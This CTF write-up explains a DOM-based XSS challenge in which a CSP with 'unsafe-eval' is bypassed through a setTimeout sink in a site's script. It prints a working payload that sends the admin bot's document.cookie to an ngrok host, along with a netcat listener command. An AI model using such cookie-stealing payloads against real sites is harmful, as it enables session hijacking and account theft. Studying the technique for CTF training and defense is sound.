 # Code-review and Vuln

In `main.py`, CSP is returning in response header from add_resp_headers() function.

and it running `/review/essay` endpoint. so, in `main.py`, we can see the our inputed data  in `/register` go to `bot.py` or admin bot. in `bot.py`, we can see that admin will go to `/review/essay` and check our inputed string. so, we can clearly see that we have to stole the cookie from admin browser to go to `/join`, got the flag. But not so easy though.

First, what type of xss is possible? Well, DOM-XSS can happen in `essay` path. (**not in email**). Why? cause in `essay_checker.html`, we can see the in `essay` path, he used `eassy|safe`. if you familar with safe, you can know that safe is used to return the user-input as a string (**i guess it can prevent the reflected-xss**) [what-is-Safe-in-djangos](https://stackoverflow.com/questions/4056883/when-should-i-use-escape-and-safe-in-djangos-template-system)

But, `safe` can't protect DOM-XSS, but problem is that CSP. let analytics the CSP with google csp auditor. When we paste the CSP script, audior show that this CSP is not safe and can leads to DOM-based xss. Cause of `script-src 'self' 'unsafe-eval'`

```
'unsafe-eval' allows the execution of code injected into DOM APIs such as eval().
```

So, We know now that we can do DOM-xss, but not fully.(**not freely**). To perform the DOM-based-xss in this site by passing the csp, we need to call a DOM-API for our xss (**script**). 

Luckily, there is one js file `/static/js/thing.js` that use the DOM-API. (**DOMContentLoaded**) -> `Our input will be fully loaded as HTML in browser`. Also, do you notice something in it? well, if know js properly you will. Cause he just write a waste of line in file, actually he can `console.log(iloveumass)`. but he used `setTimeOut()` sink. this function can leads to js injection if user can conrtoll it. And, We can controll it by xss by bypassing the csp.

# Plan
So, we can Steal admin's cookie by DOM-XSS and go to `/join` by the leaked admin's cookie. and we can get flag. 

i setup ngrok and listener:
```
./ngrok http 9999
nc -lnvp 9999
```

# Payload:
```
<script id='debuger' src="/static/js/thing.js" data-iloveumass="something');document.location.href=`http://6122-210-14-97-178.ngrok.io/?cookie=`%2bdocument.cookie;//"></script>
```


What this payload do is we closed the `console.log` function from `thing.js` with `');` (**single quote and open-bracket**) first and then call the `id` and `src` with same from `register.html`(**but remember that our xss is excuted on eassy_checker.html `/review/essay`**)

Then, we set the `document.location.href` property to send the `document.cookie` object from the admin browser to our ngrok (**web-hook**) server. Then we have to set the `//` behind the payload to make the everything comment in the line behind of it. (**So, our payload can excute properly**). 

So, Submit it on essay path in `/register` and wait 3 seconds and auth cookie have arrived to our ngrok server.

# Takeaway
If you are doing xss on site, pay attention to all js files of it and also console is your friend.

`syntax` is really weird and browser is strange all time :)

# Resources
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss#dom-vulnerabilities

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-xss#sinks-2

# Thanks
Thank to CTF organizer and author of this chall. really cool and give a lot of knowledge.


